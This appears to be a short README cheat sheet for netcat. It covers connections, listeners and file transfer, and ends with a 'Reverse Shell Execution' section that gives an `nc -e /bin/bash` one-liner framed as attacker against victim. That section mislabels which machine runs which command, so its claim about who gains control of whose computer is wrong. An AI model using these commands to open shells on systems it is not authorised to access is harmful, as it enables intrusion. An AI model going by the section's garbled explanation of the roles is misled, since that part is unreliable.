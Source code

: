 # Netcat - Reverse Shell & File Transfer

> **MUST HAVE**  
> - Netcat: `sudo apt install netcat-traditional`  
> - OS: Linux OS  

---

## 🔌 Basic Usage

### Simple connection to remote computer:
```bash
nc <ip> <port>
🖥️ Server Creation
TCP Server:

nc -lp <port>
UDP Server:

nc -lup <port>
📁 File Transfer
Send file:

nc <send-to-ip> <port> < <file-to-send>
Receive file:

nc -lp <port> > <file-that-got-sent>
🐚 Reverse Shell Execution
On Attacker's Machine (Send Reverse Shell):

nc -e /bin/bash <victim-ip> <port>
# /bin/bash is the shell used
On Victim's Machine (Listen for Shell):

nc -lp <port>
💡 WHAT HAPPENS:
A remote connection is established and the attacker can execute shell commands on the victim's computer.

🧪 Alternatives
You can also use sudo nc or sudo netcat interchangeably.